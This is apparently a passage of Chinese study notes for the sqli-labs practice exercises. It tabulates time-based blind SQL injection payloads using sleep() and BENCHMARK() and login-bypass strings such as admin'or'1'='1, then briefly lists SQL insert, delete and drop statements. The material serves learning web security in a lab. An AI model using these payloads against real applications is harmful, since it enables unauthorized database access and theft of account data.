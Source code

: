  

## 3.延时注入

| 注入语句                                                     | 数据库语句                                                   |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| ?id=1'   and If(ascii(substr(database(),1,1))=115,1,sleep(5)) --+ | 利用   sleep()函数进行注入                                   |
| ?id=1'UNION   SELECT   (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5   seconds')),null)),2,3 FROM (select database() as current)    BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达   式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执 行成功。这是一种边信道攻击，在运行过程中占用大量的 cpu   资源。推荐使用 sleep() | 利用   BENCHMARK()进行延时注入   当结果正确的时候，运行   ENCODE('MSG','by 5 seconds')操作 50000000 次，会占用一段时间 |

 ![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0avcbxr3ej20z505f0ss.jpg)



# Less10 post注入

| 注入语句                               | 数据库语句                                                   |
| -------------------------------------- | ------------------------------------------------------------ |
| admin'or'1'='1              密码随意   | @$sql="SELECT   username, password FROM users WHERE username='admin'or'1'='1# and   password='$passwd'LIMIT0,1"; |
| admin'   union select 1,database()#    | 爆出账号密码                                                 |
| Admin")   or 1=1#                      | near 'admin")                                                |
| admin')   and left(database(),1)> 'a'# | near 'admin')                                                |

 

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0ave1s42fj20ak089glh.jpg)



 

 

# 增删改函数介绍

## 1.增

`insert into users values('16','lcamry','lcamry');`

## 2.删 

Delete from users where id=16

Delete from 表名;

Delete from 表名 where id=1;  

删除结构： 

删数据库：drop database 数据库名; 

删除表：drop table 表名; 
